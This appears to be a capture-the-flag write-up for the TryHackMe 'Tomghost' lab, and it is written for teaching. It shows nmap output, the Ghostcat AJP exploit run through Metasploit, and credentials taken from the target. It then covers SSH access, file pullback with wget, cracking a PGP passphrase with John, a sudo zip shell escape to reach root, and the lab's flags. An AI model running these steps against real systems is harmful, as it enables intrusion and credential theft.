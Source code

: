 # Enumeration

## Nmap

```jsx
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack ttl 61

8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
```

- Check cve of 8009

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ searchsploit ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclusion                                                                                                         | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                         | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                           | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- we found ajp metasploit

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(1).png

- use msfconsole and search ajp
- use 0
- set up rhosts and exploit

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(2).png

```jsx
skyfuck:8730281lkjlkjdqlksalks
```

## SSH (22)

- use the above credential and login via ssh

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(3).png

```jsx
find / -type f -name user.txt 2> /dev/null
```

- use this cmd to find user.txt file

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ find / -type f -name user.txt 2> /dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

# Post Exploitation

```jsx
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

- open webshell on skyfuck
- download from our kali

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/tryhackme.asc
-----------------------------------------------
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ wget http://10.10.88.153:8000/credential.pgp
```

First, let’s convert the key into a hash with this command:

```jsx
gpg2john tryhackme.asc > hash.txt
```

Then, start cracking it with John.

```jsx
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(4).png

```jsx
alexandru 
```

Now that I have the decrypted password, I can decrypt credential.pgp by using:

```jsx
gpg --import tryhackme.asc
gpg -d credential.pgp
```

- `-import` to import the key.
- `d` to decrypt the .pgp file.

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg --import tryhackme.asc
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/CTF/tryhackme/tomghost]
└─$ gpg -d credential.pgp
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j 
```

- we login ssh with merlin

It seems we need to use `sudo /zip` to access higher privileges.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

Look for files with the SUID bit, which allows us to run files with elevated privileges beyond the current user.

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(5).png

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(6).png

- we can find that in GTFOBins
- we will use that commands

```jsx
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
```

https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/09d6585dc5beaffa64a86c075de65e482ff66145/Tomghost%20(THM)/Images/image%20(7).png

Finally, we got the root.

```jsx
# cd /root
# ls
root.txt  ufw
# cat root.txt  
THM{Z1P_1S_FAKE}
```
